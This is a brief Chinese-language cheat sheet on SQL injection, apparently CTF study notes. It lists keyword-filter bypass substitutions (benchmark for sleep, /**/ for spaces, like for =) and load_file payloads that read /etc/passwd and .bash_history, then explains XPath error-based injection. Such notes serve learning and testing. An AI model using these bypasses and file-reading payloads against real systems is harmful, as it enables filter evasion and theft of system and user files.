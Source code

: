 ```sql
id=1 ==>Nu1L
id=2 ==>V&N
id=2-1 ==>Nu1L
```

```nginx
# 当存在以下过滤
if(preg_match("/regexp|between|in|flag|=|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){
    
    # 可用绕过
sleep 	可以用benchmark代替
<,> 	可以用least(),greatest()代替
=,in 	可以用like代替 
substr 	可以用mid代替
空格	   可以用/**/代替
```



### 1、sql注入常用函数

```nginx
-- 读取本地文件
-- '/etc/passwd [ 查看数据库中所有用户目录]
select load_file('/etc/passwd')

-- 读取隐藏的文件:.bash_history，记录着用户命令记录
select load_file(‘//home/www/.bash_history’)

-- 以16进制输出文件内容
select hex(load_file(‘//tmp/html/.DS_Store’))

```



### 2、【sql注入之：**报错注入最长输出32位**】



#### 1、Xpath注入报错注入

-   xPath是一种在xml查找信息的语言

-   XPath注入攻击是指利用XPath 解析器的松散输入和容错特性，

    -   能够在 URL、表单或其它信息上附带恶意的XPath 查询代码，以获得权限信息的访问权并更改这些信息。

-   XPath注入攻击特点

    -   >   XPath注入攻击利用两种技术，即**XPath扫描**和 **XPath查询布尔化**。
        >
        >   通过该攻击，攻击者可以控制用来进行XPath查询的XML数据库。
        >
        >   这种攻击可以有效地对付使用XPath查询（和XML数据库） 来执行身份验证、查找或者其它操作。
